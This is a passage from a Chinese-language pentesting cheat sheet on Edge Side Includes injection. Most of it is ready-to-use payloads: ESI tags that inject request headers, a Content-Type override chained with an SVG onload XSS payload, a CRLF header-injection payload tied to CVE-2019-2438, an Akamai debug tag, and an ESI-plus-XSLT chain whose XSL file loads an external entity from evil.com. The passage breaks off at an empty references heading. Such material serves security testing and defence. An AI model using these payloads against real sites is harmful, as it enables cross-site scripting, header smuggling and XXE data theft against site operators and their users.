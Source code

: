 * 在强制请求中添加头部
```xml
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345"/>
</esi:include>
```
* 在响应中添加头部（有助于绕过响应中的“Content-Type: text/json”以进行XSS）

{% code overflow="wrap" %}
```bash
<!--esi/$add_header('Content-Type','text/html')/-->

<!--esi/$(HTTP_COOKIE)/$add_header('Content-Type','text/html')/$url_decode($url_decode('"><svg/onload=prompt(1)>'))/-->

# Check the number of url_decode to know how many times you can URL encode the value
```
{% endcode %}

#### CRLF 在 Add header (**CVE-2019-2438**)
```xml
<esi:include src="http://example.com/asdasd">
<esi:request_header name="User-Agent" value="12345
Host: anotherhost.com"/>
</esi:include>
```
#### Akamai debug

这将发送包含在响应中的调试信息：
```xml
<esi:debug/>
```
### ESI + XSLT = XXE

在 ESI 中使用 **`eXtensible Stylesheet Language Transformations (XSLT)`** 语法是可能的，只需将参数 **`dca`** 的值指示为 **`xslt`**。这可能允许滥用 **XSLT** 来创建和利用 XML 外部实体漏洞 (XXE)：
```xml
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```
XSLT 文件：
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```
检查 XSLT 页面：

{% content-ref url="xslt-server-side-injection-extensible-stylesheet-language-transformations.md" %}
[xslt-server-side-injection-extensible-stylesheet-language-transformations.md](xslt-server-side-injection-extensible-stylesheet-language-transformations.md)
{% endcontent-ref %}

### 参考文献
